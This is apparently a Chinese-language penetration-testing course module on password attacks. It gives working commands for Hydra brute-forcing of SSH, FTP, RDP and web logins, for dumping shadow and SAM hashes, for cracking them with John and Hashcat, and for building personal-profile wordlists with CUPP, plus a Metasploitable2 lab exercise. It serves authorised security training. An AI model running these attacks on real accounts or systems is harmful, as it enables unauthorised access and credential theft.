

## 目录

- [[#一、密码Hash基础|一、密码Hash基础]]
  - [[#1.1 什么是密码Hash|1.1 什么是密码Hash]]
  - [[#1.2 Hash识别|1.2 Hash识别]]
  - [[#1.3 密码攻击方式|1.3 密码攻击方式]]
- [[#二、Hydra在线密码爆破|二、Hydra在线密码爆破]]
  - [[#2.1 工具介绍与基本命令|2.1 工具介绍与基本命令]]
  - [[#2.2 SSH爆破|2.2 SSH爆破]]
  - [[#2.3 FTP爆破|2.3 FTP爆破]]
  - [[#2.4 HTTP表单爆破|2.4 HTTP表单爆破]]
  - [[#2.5 其他协议示例|2.5 其他协议示例]]
  - [[#2.6 Hydra高级选项|2.6 Hydra高级选项]]
- [[#三、John the Ripper离线破解|三、John the Ripper离线破解]]
  - [[#3.1 获取密码Hash|3.1 获取密码Hash]]
  - [[#3.2 基本破解命令|3.2 基本破解命令]]
  - [[#3.3 常用格式选项|3.3 常用格式选项]]
  - [[#3.4 规则攻击|3.4 规则攻击]]
- [[#四、Hashcat GPU加速破解|四、Hashcat GPU加速破解]]
  - [[#4.1 Hash类型代码|4.1 Hash类型代码]]
  - [[#4.2 攻击模式|4.2 攻击模式]]
  - [[#4.3 基本命令|4.3 基本命令]]
  - [[#4.4 掩码字符集|4.4 掩码字符集]]
  - [[#4.5 性能优化|4.5 性能优化]]
- [[#五、Crunch字典生成|五、Crunch字典生成]]
  - [[#5.1 基本语法|5.1 基本语法]]
  - [[#5.2 高级用法|5.2 高级用法]]
- [[#六、CUPP定向字典生成|六、CUPP定向字典生成]]
  - [[#6.1 交互使用|6.1 交互使用]]
  - [[#6.2 命令行使用|6.2 命令行使用]]
- [[#七、攻击流程总览|七、攻击流程总览]]
- [[#八、实践练习|八、实践练习]]

---

## 一、密码Hash基础

### 1.1 什么是密码Hash

Hash（散列）是将任意长度的数据转换为固定长度输出的单向函数。密码系统存储的是密码的Hash值，而非明文密码。

常见Hash算法：

| 算法 | 位宽 | 安全性 |
|------|------|--------|
| MD5 | 128位 | 已不安全（但Web应用中仍常见） |
| SHA-1 | 160位 | 已被攻破 |
| SHA-256/512 | 256/512位 | 较安全的标准Hash |
| NTLM | 128位 | Windows本地认证使用 |
| LM | 56位有效 | 极不安全 |
| bcrypt | 184位 | 带盐值的慢Hash算法 |
| Argon2 | 可变 | 最新的安全Hash算法 |

### 1.2 Hash识别

根据格式特征识别Hash类型：

```
$1$xxxxxxxx$yyyyyyyyyyyy  → MD5 crypt (Linux)
$5$xxxxxxxx$yyyyyyyyyyyy  → SHA-256 crypt (Linux)
$6$xxxxxxxx$yyyyyyyyyyyy  → SHA-512 crypt (Linux)
$2a$ / $2b$ / $2y$        → bcrypt
$y$                       → yescrypt
32位十六进制               → 可能为MD5
40位十六进制               → 可能为SHA-1
```

使用工具自动识别：

```bash
hashid 'hash_string'
hash-identifier
```

### 1.3 密码攻击方式

**在线攻击**：通过网络服务实时尝试密码（hydra, medusa, ncrack）
**离线攻击**：获取Hash文件后在本地破解（john, hashcat）

破解模式分类：

| 模式 | 说明 | 示例 |
|------|------|------|
| 字典攻击 | 使用预定义密码列表 | rockyou.txt |
| 规则攻击 | 在字典基础上应用变换 | best64.rule |
| 掩码攻击 | 按指定字符集和长度穷举 | ?l?l?l?l?d?d |
| 组合攻击 | 组合两个字典中的单词 | dict1+dict2 |
| 混合攻击 | 字典+掩码组合 | word + ?d?d |

---

## 二、Hydra在线密码爆破

> 关联阅读：[[03-网络扫描与枚举技术|信息收集]] 中获取的开放端口是Hydra的目标来源。

### 2.1 工具介绍与基本命令

Hydra（THC-Hydra）是最快速的在线密码破解工具，支持50+种协议。

```bash
hydra -l <username> -p <password> <target> <protocol>
hydra -L <userlist> -P <wordlist> <target> <protocol>
hydra -C <user:pass_file> <target> <protocol>
```

### 2.2 SSH爆破

```bash
# 单用户单密码测试
hydra -l root -p toor ssh://192.168.1.100

# 单用户+字典
hydra -l root -P /usr/share/wordlists/rockyou ssh://192.168.1.100

# 用户列表+密码列表
hydra -L users.txt -P /usr/share/wordlists/rockyou ssh://192.168.1.100

# 指定端口，控制线程
hydra -l root -P pass.txt -s 2222 -t 4 ssh://192.168.1.100

# 详细输出
hydra -l root -P pass.txt -V ssh://192.168.1.100
```

### 2.3 FTP爆破

```bash
hydra -L users.txt -P pass.txt ftp://192.168.1.100
hydra -l anonymous -P pass.txt ftp://192.168.1.100
```

### 2.4 HTTP表单爆破

HTTP POST 表单格式解析：`"path:post_params:失败条件"`

```bash
# 基础POST表单
hydra -l admin -P wordlist.txt 192.168.1.100 \
  http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"

# HTTP GET表单
hydra -l admin -P wordlist.txt 192.168.1.100 \
  http-get-form "/login.php:user=^USER^&pass=^PASS^:F=Login failed"

# HTTP Basic认证
hydra -l admin -P wordlist.txt 192.168.1.100 http-get /protected/
```

常见失败/成功条件：

| 条件 | 含义 |
|------|------|
| `F=incorrect` | 页面包含 "incorrect" |
| `F=Login failed` | 页面包含 "Login failed" |
| `S=success` | 成功标记 |
| `S=302` | HTTP 302重定向（登录成功） |
| `H=Location: dashboard` | 响应头包含特定内容 |
| `:C=/login.php` | 登录失败重定向回登录页 |

复杂参数示例：

```bash
# WordPress登录
hydra -l admin -P pass.txt 192.168.1.100 http-post-form \
  "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:F=is incorrect"

# JSON API
hydra -l admin -P pass.txt 192.168.1.100 http-post-form \
  "/api/login:{\"username\":\"^USER^\",\"password\":\"^PASS^\"}:F=401"
```

### 2.5 其他协议示例

```bash
# MySQL
hydra -l root -P pass.txt mysql://192.168.1.100

# SMB
hydra -l Administrator -P pass.txt smb://192.168.1.100

# RDP
hydra -l admin -P pass.txt rdp://192.168.1.100

# Telnet
hydra -l root -P pass.txt telnet://192.168.1.100

# SMTP
hydra -l user@domain.com -P pass.txt smtp://192.168.1.100
```

### 2.6 Hydra高级选项

| 参数 | 说明 |
|------|------|
| `-t 4` | 线程数（默认16，SSH建议4） |
| `-w 5` | 最大响应等待时间（秒） |
| `-e nsr` | 额外检查：n=空密码, s=用户名为密码, r=反向用户名 |
| `-o found.txt` | 输出结果到文件 |
| `-vV` | 详细模式（显示每次尝试） |
| `-f` | 找到第一组有效密码后停止 |
| `-R` | 恢复之前的任务 |

---

## 三、John the Ripper离线破解

> 关联阅读：[[07-后渗透与权限维持|后渗透]] 中通过 hashdump 获取的Hash可在此破解。

### 3.1 获取密码Hash

**Linux系统：**

```bash
sudo unshadow /etc/passwd /etc/shadow > hashes.txt
```

**Windows系统（SAM文件）：**

```bash
# 从注册表导出
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
# 或使用Meterpreter的hashdump命令
```

单个Hash文件格式示例（unshadow输出）：

```
root:$6$saltsalt$encryptedpasswordhash:0:0:root:/root:/bin/bash
```

### 3.2 基本破解命令

```bash
# 自动检测Hash类型并破解
john hashes.txt

# 使用字典
john --wordlist=/usr/share/wordlists/rockyou hashes.txt

# 指定Hash格式
john --format=raw-md5 hash.txt
john --format=NT hashes.txt          # Windows NTLM
john --format=raw-sha256 hash.txt

# 指定规则破解
john --wordlist=rockyou.txt --rules hashes.txt

# 显示已破解密码
john --show hashes.txt

# 恢复中断的破解
john --restore

# 查看所有支持的格式
john --list=formats
```

### 3.3 常用格式选项

| 格式选项 | 说明 |
|----------|------|
| `--format=raw-md5` | 纯MD5 |
| `--format=raw-sha1` | 纯SHA-1 |
| `--format=raw-sha256` | 纯SHA-256 |
| `--format=NT` | Windows NTLM |
| `--format=LM` | Windows LM |
| `--format=crypt` | 标准Unix DES |
| `--format=bcrypt` | bcrypt Hash |
| `--format=sha512crypt` | Linux SHA-512 ($6$) |
| `--format=md5crypt` | Linux MD5 ($1$) |
| `--format=wpapsk` | WPA/WPA2 PSK |
| `--format=pdf` | PDF密码 |
| `--format=rar` | RAR密码 |
| `--format=zip` | ZIP密码 |

### 3.4 规则攻击

规则是对字典单词的变换操作：大小写转换、添加数字/特殊字符、字符替换（a→@, s→$, o→0）、单词反转。

```bash
john --wordlist=dic.txt --rules=Single hashes.txt
```

规则文件位置：`/etc/john/john.conf`

常用规则段：

| 规则名 | 说明 |
|--------|------|
| `[List.Rules:Wordlist]` | 基础规则 |
| `[List.Rules:Single]` | 单单词模式规则 |
| `[List.Rules:Extra]` | 额外规则 |

---

## 四、Hashcat GPU加速破解

### 4.1 Hash类型代码

常用Hash模式代码（`-m` 参数）：

| 代码 | Hash类型 |
|------|----------|
| 0 | MD5 |
| 100 | SHA-1 |
| 1400 | SHA-256 |
| 1700 | SHA-512 |
| 1000 | NTLM |
| 3000 | LM |
| 3200 | bcrypt $2*$ |
| 1800 | sha512crypt $6$ (Unix) |
| 500 | md5crypt $1$ (Unix) |
| 22000 | WPA-PBKDF2-PMKID+EAPOL |
| 11600 | 7-Zip |
| 12500 | RAR3-hp |
| 13000 | RAR5 |
| 13600 | WinZip |
| 16800 | WPA-PMKID-PBKDF2 |

查看完整列表：

```bash
hashcat --help | grep -A 1000 "Hash modes"
```

### 4.2 攻击模式

| 模式 | 说明 |
|------|------|
| `-a 0` | 字典攻击 (Straight) |
| `-a 1` | 组合攻击 (Combination) |
| `-a 3` | 掩码攻击 (Brute-force) |
| `-a 6` | 混合攻击：字典+掩码 |
| `-a 7` | 混合攻击：掩码+字典 |

### 4.3 基本命令

```bash
# 字典攻击
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou

# 带规则攻击
hashcat -m 0 -a 0 hash.txt rockyou.txt -r rules/best64.rule

# 掩码攻击 (8位小写字母)
hashcat -m 0 -a 3 hash.txt ?l?l?l?l?l?l?l?l

# 掩码攻击 (自定义字符集)
hashcat -m 0 -a 3 hash.txt -1 ?l?d ?1?1?1?1?1?1?1?1

# 掩码攻击 (首字母大写+小写+数字)
hashcat -m 0 -a 3 hash.txt ?u?l?l?l?l?l?l?d?d

# NTLM字典攻击
hashcat -m 1000 -a 0 ntlm_hashes.txt rockyou.txt

# NTLM+规则
hashcat -m 1000 -a 0 ntlm_hashes.txt rockyou.txt -r rules/best64.rule

# Linux SHA-512
hashcat -m 1800 -a 0 shadow_hashes.txt rockyou.txt

# WPA/WPA2
hashcat -m 22000 wpa.hc22000 rockyou.txt

# 组合攻击
hashcat -m 0 -a 1 hashes.txt words1.txt words2.txt

# 显示已破解
hashcat -m 0 hash.txt --show
```

### 4.4 掩码字符集

| 符号 | 表示 |
|------|------|
| `?l` | abcdefghijklmnopqrstuvwxyz |
| `?u` | ABCDEFGHIJKLMNOPQRSTUVWXYZ |
| `?d` | 0123456789 |
| `?s` | !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~ |
| `?a` | ?l?u?d?s（全部） |
| `?h` | 0xc0 - 0xff |
| `?H` | 0x80 - 0xff |
| `?b` | 0x00 - 0xff |

自定义字符集：

```bash
-1 ?l?d           # 小写+数字
-2 ?l?u?d?s       # 全部可打印
-3 abcABC123      # 指定字符
```

掩码攻击实用示例：

```bash
# 手机号 (1开头11位)
hashcat -m 0 -a 3 hashes.txt 1?d?d?d?d?d?d?d?d?d?d

# 常见密码模式 (大写+7小写+2数字)
hashcat -m 0 -a 3 hashes.txt ?u?l?l?l?l?l?l?l?d?d
```

### 4.5 性能优化

| 参数 | 说明 |
|------|------|
| `-w 3` | 工作负载配置（1-4，默认2） |
| `-O` | 优化内核（限制密码长度，提高速度） |
| `--force` | 忽略警告强制执行 |
| `--session name` | 命名会话（可恢复） |
| `--restore` | 恢复中断的会话 |
| `--status` | 显示当前进度 |
| `--status-timer 5` | 每5秒更新进度 |
| `-o found.txt` | 输出破解结果到文件 |

```bash
# 完整示例
hashcat -m 1000 -a 3 -O -w 3 --session ntlm_brute \
  -1 ?l?d ntlm.txt ?1?1?1?1?1?1?1?1
```

---

## 五、Crunch字典生成

### 5.1 基本语法

```bash
crunch <min> <max> <charset> [options]
```

```bash
# 生成6-8位纯数字字典
crunch 6 8 0123456789 -o number_dict.txt

# 生成6-8位小写字母字典
crunch 6 8 abcdefghijklmnopqrstuvwxyz -o lower_dict.txt

# 使用简写模式: @ = 小写, , = 大写, % = 数字, ^ = 特殊字符
crunch 8 8 -t @@@@@@@@ -o 8char_lower.txt

# 模式示例: Pass0000 到 Pass9999
crunch 8 8 -t Pass%%%% -o pass4digit.txt
```

### 5.2 高级用法

```bash
# 从特定字符集生成
crunch 6 6 abc123!@# -o custom.txt

# 排列组合
crunch 6 8 -p word1 word2 word3

# 指定起始字符串
crunch 5 5 -s abcde

# 限制输出文件大小 (每个文件100万行)
crunch 8 8 0123456789 -c 1000000 -o START

# 生成后直接传给hashcat (不存文件)
crunch 8 8 abc123 | hashcat -m 0 -a 0 hash.txt
```

实用字典生成示例：

```bash
# 生日格式 (YYYYMMDD, 2月)
crunch 8 8 -t %%%%02%% -o birthday_02.txt

# 手机号 (13x开始)
crunch 11 11 -t 13%%%%%%%%% -o phone_cn.txt

# 简单密码模式 (大写+8小写+1数字)
crunch 10 10 -t ,@@@@@@@@% -o pattern1.txt

# 公司名+年份
crunch 12 12 -t company%%%% -o company_year.txt
```

---

## 六、CUPP定向字典生成

> 关联阅读：[[02-信息收集与侦察技术|信息收集]] 中获取的个人/企业信息是CUPP的输入来源。

### 6.1 交互使用

CUPP（Common User Passwords Profiler）根据目标个人信息生成高针对性的密码字典，适用于社工场景。

```bash
cupp -i
```

按提示输入目标信息：

| 字段 | 示例 |
|------|------|
| First Name | John |
| Surname | Smith |
| Nickname | Johnny |
| Birthdate | 19900101 |
| Partner's name | Jane |
| Partner's nickname | Janey |
| Partner's birthdate | 19891225 |
| Pet's name | Max |
| Company name | AcmeCorp |
| 额外关键词 | football, barcelona |

生成的文件以名字命名（如 `john.txt`）。

### 6.2 命令行使用

```bash
cupp -i                  # 交互式创建
cupp -w password.txt     # 从已有字典改进
```

---

## 七、攻击流程总览



---

## 八、实践练习

> 实验环境：攻击机 ArchStrike (192.168.1.50)，靶机 Metasploitable2 (192.168.1.100)

### 阶段一：制作Hash样本

```bash
# 创建测试密码的Hash
echo -n "MyPass123" | md5sum | cut -d' ' -f1 > md5_test.txt
echo -n "admin" | md5sum | cut -d' ' -f1 >> md5_test.txt
echo -n "password123" | md5sum | cut -d' ' -f1 >> md5_test.txt

# 获取Metasploitable2的Hash文件
# 在目标上: cat /etc/shadow > ms2_shadow.txt
# 在攻击机上:
sudo unshadow /etc/passwd ms2_shadow.txt > ms2_hashes.txt
grep "^root:" ms2_hashes.txt > root_hash.txt
```

### 阶段二：John the Ripper破解

```bash
# 基本破解测试
john md5_test.txt

# 使用rockyou字典
john --wordlist=/usr/share/wordlists/rockyou md5_test.txt

# 显示破解结果
john --show md5_test.txt

# 破解Metasploitable2的root Hash
john --wordlist=/usr/share/wordlists/rockyou root_hash.txt

# 查看所有破解的密码
john --show ms2_hashes.txt
```

### 阶段三：Hashcat破解

```bash
# 查看GPU信息
hashcat -I

# MD5字典破解
hashcat -m 0 -a 0 md5_test.txt /usr/share/wordlists/rockyou

# MD5规则破解
hashcat -m 0 -a 0 md5_test.txt /usr/share/wordlists/rockyou \
  -r /usr/share/hashcat/rules/best64.rule

# 掩码攻击 (6位数字)
hashcat -m 0 -a 3 md5_test.txt ?d?d?d?d?d?d

# NTLM Hash破解
echo -n "test" | iconv -f ASCII -t UTF-16LE | openssl dgst -md4 | \
  cut -d' ' -f2 > ntlm_test.txt
hashcat -m 1000 -a 0 ntlm_test.txt /usr/share/wordlists/rockyou
```

### 阶段四：生成定制字典

```bash
# crunch生成4-6位数字+字母
crunch 4 6 0123456789abcdef -o digits_4to6.txt
wc -l digits_4to6.txt

# crunch生成模式字典
crunch 8 8 -t admin%%% -o admin_pass.txt
head -20 admin_pass.txt

# cupp生成定向字典
cupp -i
# 输入虚构目标的个人信息后查看生成的文件
head -20 john.txt
```

### 阶段五：Hydra在线爆破

```bash
# 确认SSH可用
nc -zv 192.168.1.100 22

# 爆破SSH
hydra -l msfadmin -P /usr/share/wordlists/fasttrack \
  ssh://192.168.1.100 -t 4 -V

# 爆破FTP (先创建用户列表)
echo -e "root\nmsfadmin\nuser\nadmin\nservice" > users.txt
hydra -L users.txt -P /usr/share/wordlists/fasttrack \
  ftp://192.168.1.100 -t 4

# 爆破DVWA登录表单
hydra -l admin -P /usr/share/wordlists/fasttrack \
  192.168.1.100 http-post-form \
  "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
```

### 阶段六：编写破解报告

```bash
echo "=== 密码破解实践报告 ===" > crack_report.txt
echo "" >> crack_report.txt
echo "1. 离线破解结果:" >> crack_report.txt
echo "   - John破解的Hash:" >> crack_report.txt
john --show md5_test.txt >> crack_report.txt
echo "" >> crack_report.txt
echo "2. 在线爆破结果:" >> crack_report.txt
echo "   - Hydra发现的SSH/FTP密码记录" >> crack_report.txt
echo "" >> crack_report.txt
echo "3. 字典统计:" >> crack_report.txt
echo "   - crunch生成: $(wc -l < digits_4to6.txt) 条" >> crack_report.txt
echo "   - cupp生成: $(wc -l < john.txt 2>/dev/null || echo 0) 条" >> crack_report.txt
echo "" >> crack_report.txt
echo "4. 安全建议:" >> crack_report.txt
echo "   - 使用强密码 (12+字符, 大小写+数字+特殊字符)" >> crack_report.txt
echo "   - 启用账户锁定策略 (fail2ban)" >> crack_report.txt
echo "   - 实施多因素认证 (MFA)" >> crack_report.txt
echo "   - 定期审计密码强度" >> crack_report.txt
```

### 注意事项

- 字典文件 `rockyou.txt.gz` 位于 `/usr/share/wordlists/`，首次使用前需解压：`sudo gunzip /usr/share/wordlists/rockyou.gz`
- 在线攻击会产生日志，可能触发IDS/IPS告警
- SSH爆破建议 `-t 4`，FTP可用 `-t 16`
- Hashcat使用GPU时需安装正确的OpenCL/CUDA驱动，虚拟机中可使用 `--force` 跳过
- LM Hash极不安全，有此Hash的系统应优先建议升级
- **仅在授权范围内进行密码攻击，未经授权构成犯罪**

---

> [[../总目录与快速查询|← 返回总目录]]
> 
> 相关模块：[[02-信息收集与侦察技术|信息收集]] · [[03-网络扫描与枚举技术|扫描探测]] · [[07-后渗透与权限维持|后渗透]] · [[08-痕迹清除与渗透报告|渗透报告]]
